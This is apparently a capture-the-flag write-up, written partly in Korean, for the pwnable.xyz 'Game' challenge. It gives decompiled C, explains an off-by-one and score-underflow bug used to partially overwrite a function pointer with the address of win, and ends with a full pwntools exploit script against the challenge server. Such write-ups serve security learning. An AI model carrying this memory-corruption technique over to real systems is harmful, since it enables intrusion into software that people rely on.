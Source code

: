 # Game
*
~~~c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  signed int v3; // eax

  setup(*(_QWORD *)&argc, argv, envp);
  puts("Shell we play a game?");
  init_game();
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu();
      printf("> ");
      v3 = read_int32();
      if ( v3 != 1 )
        break;
      (*((void (**)(void))cur + 3))();
    }
    if ( v3 > 1 )
    {
      if ( v3 == 2 )
      {
        save_game();
      }
      else
      {
        if ( v3 != 3 )
          goto LABEL_13;
        edit_name();
      }
    }
    else
    {
      if ( !v3 )
        exit(1);
LABEL_13:
      puts("Invalid");
    }
  }
}
~~~
IDA에서 확인한 main code , win의 주소는 0x4009d6
* exploit 방법은 name을 물을 때 16자리를 꽉 채워서 보내서 널 바이트를 없애 길이를 한칸 길게 함.
다음 1번 조건에서 져서 score를 -1로 저장되게 함. 그 상태에서 2번 조건 실행해서 0xffffffffffffffff가 score에
저장하게 함. 이제 3번을 실행해서 뒷부분 3자리를 win의 주소로 바꾸어줌. 그러면 1번을 실행할 때마다 win이 실행됨
~~~python 
from pwn import *

p=remote('svc.pwnable.xyz',30009)
e=ELF('./game')

p.sendafter('Name: ','A'*16)

p.sendlineafter('> ','1')
p.sendlineafter('= ','1')

p.sendlineafter('> ','2')

p.sendlineafter('> ','3')
ex='A'*24+'\xd6\x09'
p.send(ex)

p.sendlineafter('> ','1')

p.interactive()
~~~
  
